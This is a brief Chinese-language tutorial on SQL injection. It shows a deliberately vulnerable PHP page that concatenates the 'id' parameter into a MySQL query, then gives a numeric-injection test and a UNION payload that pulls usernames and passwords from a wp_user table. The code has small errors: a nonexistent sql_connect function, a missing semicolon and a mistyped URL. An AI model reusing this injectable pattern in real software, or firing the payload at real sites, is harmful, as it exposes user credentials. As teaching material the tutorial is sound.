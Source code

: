 ## Sql Injection
### 1.数字型和Union注入

```
sql1.php
<?php
// connect
$conn = sql_connect("127.0.0.1", "root", "root", "test")
$res = mysqli_query($conn, "SELECT title, content FROM wp_news WHERE id=".$_GET['id']);
$row = mysqli_fetch_array($res);
echo "<center>";
echo "<h1>".$row['title']."</h1>";
echo "<br/>";
echo "<h1>".$row['content']."</h1>";
echo "</center>";
?>
```

## 1.1 注入尝试1, sql解析
`http://example.com/test.php?id=2`
`http://example.com/test.phph?id=3-1`
两者等价, 说明3-1进行了解析
## 1.2 union联合查找
`http://example.com/test.php?id=1+union+select+user,pwd+from+wp_user+limit+1,1`
limit1,1 表示从1开始取一条




